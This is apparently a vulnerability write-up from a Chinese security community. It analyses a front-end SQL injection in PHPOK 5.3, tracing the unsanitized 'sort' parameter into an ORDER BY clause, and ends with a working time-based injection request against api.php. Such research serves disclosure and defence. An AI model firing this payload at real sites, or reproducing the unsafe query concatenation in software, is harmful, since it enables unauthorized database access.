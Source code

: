 

# 某OK 5.3 最新版前台无限制注入（二） - 先知社区

某OK 5.3 最新版前台无限制注入（二）

- - -

最近跟了一下最新phpok，分享一下挖掘思路  
下载地址：[https://www.phpok.com/phpok.html](https://www.phpok.com/phpok.html)

## 分析

注入点：framework/model/list.php#arc\_all

```plain
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
```

回溯寻找调用链：`framework/phpok_call.php#_arclist`

```plain
private function _arclist($rs,$cache_id='')
{
    // 264行
    $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];

    // 270行 调用arc_all函数，将$orderby传入
    $rslist = $this->model('list')->arc_all($project,$condition,$field,$offset,$psize,$orderby);
```

回溯：framework/api/project\_control.php#load\_module

```plain
private function load_module($rs,$parent_rs='')
{
    // 91行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

    //186行
    if($sort){
        $dt['orderby'] = $sort;  // 可控
        $pageurl .= '&sort='.rawurlencode($sort);
        $this->rlist['sort'] = $sort;
    }
    // 208行，通过phpok函数动态调用_arclist()函数
        $info = $this->call->phpok('_arclist',$dt);
```

继续回溯，找谁调用了`load_module()`：framework/api/project\_control.php#index\_f

```plain
public function index_f()
{
    //65行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
}
```

在控制器里以`_f`结尾的函数都可以直接被调用  
构造poc:`/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5))`

## 复现：

poc:

```plain
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close
```

[![](assets/1698897419-d8d551571c42b7171795183b67315a8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161910-41ae0d4c-0f5c-1.png)

sleep(4)延时24秒

[![](assets/1698897419-2829c308c3d4dab07ce78f72d9d3075e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161958-5ea36afa-0f5c-1.png)

数据库特性，查出几列数据order by会sleep几倍时间：

[![](assets/1698897419-73d4f92ece8eed456733913c74df7b11.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125162025-6e6c7df0-0f5c-1.png)
